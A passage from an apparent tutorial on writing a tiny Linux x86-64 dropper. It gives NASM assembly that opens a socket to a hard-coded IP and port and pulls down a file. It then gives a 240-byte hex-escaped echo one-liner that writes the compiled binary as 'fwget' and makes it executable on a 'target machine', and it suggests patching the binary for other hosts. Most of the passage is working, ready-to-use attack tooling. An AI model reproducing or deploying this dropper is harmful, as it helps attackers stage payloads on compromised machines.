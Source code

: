 ```nasm
	add al, 42
	jmp _do_syscall
	
_close:
	;; mov rax, 3
	xor eax,eax
	add al, 3
	jmp _do_syscall
	
_exit:
	xor eax,eax
	add al, 60

_do_syscall:
	syscall
	ret
	
addr dq 0x0100007f11110002
filesize equ $ - $$

```

This version is 240 bytes long and it is suitable to be dropped using a single `echo`.

```bash
echo -n -e ""\\x7f\\x45\\x4c\\x46\\x02\\x01\\x01\\x00\\x31\\xff\\xff\\xc7\\x57\\x5e\\xeb\\x68\\x02\\x00\\x3e\\x00\\x01\\x00\\x00\\x00\\x08\\x00\\x40\\x00\\x00\\x00\\x00\\x00\\x40\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x40\\x00\\x38\\x00\\x01\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x01\\x00\\x00\\x00\\x05\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x40\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x40\\x00\\x00\\x00\\x00\\x00\\xf0\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\xf0\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x10\\x00\\x00\\x00\\x00\\x00\\x00\\xff\\xc7\\xba\\x06\\x00\\x00\\x00\\xe8\\x4b\\x00\\x00\\x00\\x89\\xc3\\x89\\xc7\\x48\\x8d\\x35\\x59\\x00\\x00\\x00\\x83\\xc2\\x0a\\xe8\\x3e\\x00\\x00\\x00\\x48\\x8d\\x34\\x24\\x89\\xdf\\xba\\x00\\x04\\x00\\x00\\xe8\\x1e\\x00\\x00\\x00\\x83\\xf8\\x00\\x7e\\x14\\x31\\xff\\xff\\xc7\\x89\\xc2\\xe8\\x12\\x00\\x00\\x00\\x3d\\x00\\x04\\x00\\x00\\x7c\\x02\\xeb\\xdb\\xe8\\x1c\\x00\\x00\\x00\\x31\\xc0\\xeb\\x1c\\x31\\xc0\\xff\\xc0\\xeb\\x16\\x31\\xc0\\x04\\x29\\xeb\\x10\\x31\\xc0\\x04\\x2a\\xeb\\x0a\\x31\\xc0\\x04\\x03\\xeb\\x04\\x31\\xc0\\x04\\x3c\\x0f\\x05\\xc3\\x02\\x00\\x11\\x11\\x7f\\x00\\x00\\x01"" > fwget; chmod +x fwget

```

In other words, it is small enough to be typed manually :). In case some compressor is available on the target machine a few more bytes could be saved, but not much more.


# Final word about the dropper

As you may have noticed, this dropper connects to a hard-coded machine. Be free to add some extra code to process command-line arguments and made this value a parameter (the command-line parameters are passed to `_start` in the stack), but that will just increase the size of our dropper. 

You can easily recompile your dropper with a new IP/Port or just write a small program/script to patch the binary. This I'll leave as an exercise for the reader.
